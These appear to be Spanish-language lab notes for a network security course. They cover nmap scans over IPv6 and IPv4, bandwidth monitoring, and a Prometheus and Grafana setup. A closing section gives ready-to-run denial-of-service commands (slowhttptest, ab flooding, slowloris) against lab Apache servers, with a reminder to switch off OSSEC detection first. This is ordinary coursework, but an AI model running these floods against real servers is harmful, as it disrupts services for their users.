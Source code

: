 
1. Realice alguna de las pruebas de port scanning sobre IPv6.

> `nmap -A -6 2002:a0b:3137::1`

>[!Warning] 
Solo la mia?


2. ¿Coinciden los servicios prestados por un sistema con los de IPv4?

> `nmap -A 10.11.49.54` (Si coinciden, 80 y 514)

# K - Informacion Tiempo real

Obtenga información "en tiempo real" sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.

> `iftop -i ens33`

> `vnstat -l -i ens33`

# L - Prometeus, Node exporter y Grafana

[Tuto](https://medium.com/@ismaelaguilera_/instalaci%C3%B3n-y-configuraci%C3%B3n-de-prometheus-grafana-centos8-331c0e43ccc1)

> Encender prometeus `systemctl start prometheus

Prometeus en `10.11.49.55:9090

> Encender node exporter `systemctl start node_exporter

> Encender Grafana `systemctl start grafana-server

Prometeus en `10.11.49.55:3000

>[!Important]
>Poner la escala de tiempo en 5 min, no en dias como esta por defecto (esto se cambia arriba a la derecha)

# N - Atacar server apache

>[!Important]
>EL OSSEC APAGADO PORSI

#### 1. Slowhttptest

> `slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://10.11.49.54 -x 24 -p 3`

#### 2. Apache benchmarking

> `ab -n 10000 -c 10000 http://10.11.49.55/`

#### 3. Slowloris Python

> `python3 slowloris.py 10.11.49.54 -s 500`
